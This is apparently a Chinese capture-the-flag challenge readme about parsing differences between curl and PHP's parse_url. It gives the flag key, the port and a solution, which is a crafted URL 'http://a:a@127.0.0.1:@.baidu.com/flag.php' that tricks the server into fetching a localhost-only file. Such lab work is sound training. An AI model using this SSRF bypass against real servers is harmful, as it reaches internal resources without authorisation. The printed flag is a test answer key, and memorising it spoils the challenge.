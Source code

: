 # 题目：curl与parse_url解析区别

### 题目描述：curl与parse_url解析区别

### 题目难度： 🌟

### 维护：SiJiDo

### KEY: `flag{402eab0713f9262de52359604a24be0f}`

### 配置信息： 

1. 开放端口： `8080`

### 解题过程：

1. 右键查看源码
2. http://xxx.xxx.xxx.xxx/?urls=http://a:a@127.0.0.1:@.baidu.com/flag.php